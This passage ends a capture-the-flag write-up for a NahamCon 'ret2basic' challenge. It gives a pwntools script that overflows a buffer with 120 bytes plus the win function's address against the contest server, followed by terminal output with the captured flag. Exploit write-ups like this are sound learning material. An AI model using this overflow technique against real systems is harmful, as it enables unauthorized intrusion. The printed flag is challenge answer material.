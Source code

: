 Great! It's working. Let's just tweak it to run on remote service and grab the flag:

### Remote Exploit

```python
from pwn import *

elf = ELF("./ret2basic")                        #ELF binary
win = p64(elf.symbols.win)                      #win= 0x401215 (info functions)/p win

payload = b"A"*120 + win

def main():
    p = remote("challenge.nahamcon.com", 32043) #remote connection
    p.recvuntil("Can you overflow this?:")      #Waiting until this line
    p.sendline(payload)                         #Sending payload
    p.interactive()

if __name__ == "__main__":
    main()
```

### Pwning

```shell
cfx:  ~/Documents/nahamcon/binary
→ python exp.py
[*] '/root/Documents/nahamcon/binary/ret2basic'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.nahamcon.com on port 32043: Done
[*] Switching to interactive mode
Can you overflow this?: Here's your flag.
flag{d07f3219a8715e9339f31cfbe09d6502}
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to challenge.nahamcon.com port 32043
```

And we pwned the challenge !

Thanks for reading, Suggestions & Feedback are appreciated !
